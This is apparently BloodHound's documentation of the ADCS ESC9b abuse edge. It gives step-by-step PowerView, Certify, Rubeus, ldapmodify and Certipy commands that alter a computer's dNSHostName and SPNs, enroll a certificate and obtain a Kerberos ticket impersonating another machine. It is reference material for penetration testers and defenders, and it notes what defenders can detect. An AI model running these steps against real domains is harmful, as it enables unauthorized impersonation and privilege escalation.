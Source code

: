 ---
title: ADCSESC9b
description: "The principal has control over a victim computer with permission to enroll on one or more certificate templates, configured to: 1) enable certificate authentication, 2) require the `dNSHostName`  of the enrollee included in the Subject Alternative Name (SAN), and 3) not have the security extension enabled."
---

<img noZoom src="/assets/enterprise-AND-community-edition-pill-tag.svg" alt="Applies to BloodHound Enterprise and CE"/>



 The victim computer also has enrollment permission for an enterprise CA with the necessary templates published. This enterprise CA is trusted for NT authentication in the forest, and chains up to a root CA for the forest. There is an affected Domain Controller (DC) configured to allow weak certificate binding enforcement. This setup lets the principal impersonate any AD forest computer without their credentials.

The attacker principal can abuse their control over the victim computer to modify the victim computer's `dNSHostName` attribute to match the `dNSHostName` of a targeted computer. The attacker principal will then abuse their control over the victim computer to obtain the credentials of the victim computer, or a session as the victim computer, and enroll a certificate as the victim in one of the affected certificate templates. The `dNSHostName` of the victim will be included in the issued certificate under SAN DNS name. As the certificate template does not have the security extension, the issued certificate will NOT include the SID of the victim computer. DCs with strong certificate binding configuration will require a SID to be present in a certificate used for Kerberos authentication, but the affected DCs with weak certificate binding configuration will not. The affected DCs will split the SAN DNS name into a computer name and a domain name, confirm that the domain name is correct, and use the computer name appended a $ to identify principals with a matching `sAMAccountName`. At last, the DC issues a Kerberos TGT as the targeted computer to the attacker, which means the attacker now has a session as the targeted computer.

## Abuse Info

### Windows

Step 1: Remove SPNs including `dNSHostName` on victim.

The SPNs of the victim will be automatically updated when you change the `dNSHostName`. AD will not allow the same SPN entry to be set on two accounts. Therefore, you must remove any SPN on the victim account that includes the victim's `dNSHostName`.

Set SPN of the victim computer using PowerView:

```bash
Set-DomainObject -Identity VICTIM -Set @{'serviceprincipalname'='HOST/victim'}
```

Step 2: Set `dNSHostName` of victim computer to targeted computer's `dNSHostName`.

Set the `dNSHostName` of the victim computer using PowerView:

```bash
Set-DomainObject -Identity VICTIM -Set @{'dnshostname'='target.corp.local'}
```
Step 3: Check if the 'mail' attribute of victim must be set and set it if required.

If the certificate template is of schema version 2 or above, and its attribute 'msPKI-CertificateNameFlag' contains the flag SUBJECT\_REQUIRE\_EMAIL and/or SUBJECT\_ALT\_REQUIRE_EMAIL, then the victim principal must have their mail attribute set for the certificate enrollment. The CertTemplate BloodHound node will have "Subject Require Email" or "Subject Alternative Name Require Email" set to true if any of the flags are present.

If the certificate template is of schema version 1 or does not have any of the email flags, then
continue to Step 4.

If any of the two flags are present, you will need the victim's mail attribute to be set. The value of
the attribute will be included in the issues certificate but it is not used to identify the target
principal why it can be set to any arbitrary string.

Check if the victim has the mail attribute set using PowerView:

```bash
Get-DomainObject -Identity VICTIM -Properties mail
```

If the victim has the mail attribute set, continue to Step 4.

If the victim does not has the mail attribute set, set it to a dummy mail using PowerView:

```bash
Set-DomainObject -Identity VICTIM -Set @{'mail'='dummy@mail.com'}
```
Step 4: Obtain a session as victim.

There are several options for this step. You can obtain a session as SYSTEM on the host, which allows you to interact with AD as the computer account, by abusing control over the computer AD object (see [GenericAll edge](/resources/edges/generic-all) documentation).

Step 5: Enroll certificate as victim.

Use Certify as the victim computer to request enrollment in the affected template, specifying the affected EnterpriseCA:

```bash
Certify.exe request /ca:SERVERCA-NAME /template:TEMPLATE /machine
```
Save the certificate as `cert.pem` and the private key as `cert.key`.

Step 6: Convert the emitted certificate to PFX format:

```bash
certutil.exe -MergePFX .\cert.pem .\cert.pfx
```
Step 7 (optional): Set `dNSHostName` and SPN of victim to the previous values.

To avoid issues in the environment, set the `dNSHostName` and SPN of the victim computer back to its previous values using PowerView:

```bash
Set-DomainObject -Identity VICTIM -Set @{'dnshostname'='victim.corp.local'}
```
```bash
Set-DomainObject -Identity VICTIM -Set @{'serviceprincipalname'='HOST/victim'}
```

Step 8: Perform Kerberos authentication as targeted computer against affected DC using certificate.

Use Rubeus to request a ticket granting ticket (TGT) from an affected DC, specifying the
target identity to impersonate and the PFX-formatted certificate created in Step 6:

```bash
Rubeus.exe asktgt /certificate:cert.pfx /user:TARGET$ /domain:DOMAIN /dc:DOMAIN_CONTROLLER
```

### Linux

Step 1: Remove SPNs including `dNSHostName` on victim.

The SPNs of the victim will be automatically updated when you change the `dNSHostName`. AD will not allow the same SPN entry to be set on two accounts. Therefore, you must remove any SPN on the victim account that includes the victim's `dNSHostName`.

Remove SPN entries with ldapmodify:

```bash
echo -e "dn: VICTIM-DN\nchangetype: modify\ndelete: servicePrincipalName\nservicePrincipalName: SPN" | ldapmodify -x -D "ATTACKER-DN" -w 'PWD' -h DOMAIN-DNS-NAME
```

Step 2: Set `dNSHostName` of victim computer to targeted computer's `dNSHostName`.

Set the `dNSHostName` of the victim computer using Certipy:

```bash
certipy account update -username ATTACKER@CORP.LOCAL -password PWD -user VICTIM -dns TARGET.CORP.LOCAL
```
Step 3: Check if the 'mail' attribute of victim must be set and set it if required.

If the certificate template is of schema version 2 or above, and its attribute 'msPKI-CertificateNameFlag' contains the flag SUBJECT\_REQUIRE\_EMAIL and/or SUBJECT\_ALT\_REQUIRE_EMAIL, then the victim principal must have their mail attribute set for the certificate enrollment. The CertTemplate BloodHound node will have "Subject Require Email" or "Subject Alternative Name Require Email" set to true if any of the flags are present.

If the certificate template is of schema version 1 or does not have any of the email flags, then
continue to Step 4.

If any of the two flags are present, you will need the victim's mail attribute to be set. The value of
the attribute will be included in the issues certificate but it is not used to identify the target
principal why it can be set to any arbitrary string.

Check if the victim has the mail attribute set using ldapsearch:

```bash
ldapsearch -x -D "ATTACKER-DN" -w 'PWD' -h DOMAIN-DNS-NAME -b "VICTIM-DN" mail
```

If the victim has the mail attribute set, continue to Step 4.

If the victim does not has the mail attribute set, set it to a dummy mail using ldapmodify:

```bash
echo -e "dn: VICTIM-DN\nchangetype: modify\nreplace: mail\nmail: test@mail.com" | ldapmodify -x -D "ATTACKER-DN" -w 'PWD' -h DOMAIN-DNS-NAME
```

Step 4: Obtain a session as victim.

There are several options for this step. You can obtain a session as SYSTEM on the host, which allows you to interact with AD as the computer account, by abusing control over the computer AD object (see [GenericAll edge](/resources/edges/generic-all) documentation).

Step 5: Enroll certificate as victim.

Use Certipy as the victim principal to request enrollment in the affected template, specifying the affected EnterpriseCA:

```bash
certipy req -u VICTIM@CORP.LOCAL -p PWD -ca CA-NAME -target SERVER -template TEMPLATE
```
Step 6 (optional): Set `dNSHostName` and SPN of victim to the previous values.

To avoid issues in the environment, set the `dNSHostName` and SPN of the victim computer back to its previous value using Certipy and ldapmodify:

```bash
certipy account update -username ATTACKER@CORP.LOCAL -password PWD -user VICTIM -dns VICTIM.CORP.LOCAL
```
```bash
echo -e "dn: VICTIM-DN\nchangetype: modify\nadd: servicePrincipalName\nservicePrincipalName: SPN" | ldapmodify -x -D "ATTACKER-DN" -w 'PWD' -h DOMAIN-DNS-NAME
```
Step 7: Perform Kerberos authentication as targeted computer against affected DC using certificate.

Request a ticket granting ticket (TGT) from an affected DC, specifying the certificate created in Step 5 and the IP of an affected DC:

```bash
certipy auth -pfx TARGET.pfx -dc-ip IP
```

**Opsec Considerations**

When the affected certificate authority issues the certificate to the attacker, it will retain a local copy of that certificate in its issued certificates store. Defenders may analyze those issued certificates to identify illegitimately issued certificates and identify the principal that requested the certificate, as well as the target identity the attacker is attempting to impersonate.

## References

This edge is related to the following MITRE ATT&CK tactic and techniques:

* [https://attack.mitre.org/techniques/T1649/](https://attack.mitre.org/techniques/T1649/)

### Abuse and Opsec references

* Certipy 4.0
* [Certipy](https://github.com/ly4k/Certipy)
* [GhostPack Certipy](https://github.com/GhostPack/Certify)
* [GhostPack Rubeus](https://github.com/GhostPack/Rubeus)
* [Set-DomainObject](https://powersploit.readthedocs.io/en/latest/Recon/Set-DomainObject)
* [CertUtil.exe](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/certutil)
* [LDAPSearch](https://linux.die.net/man/1/ldapsearch)
* [LDAPModify](https://linux.die.net/man/1/ldapmodify)
* [https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf)
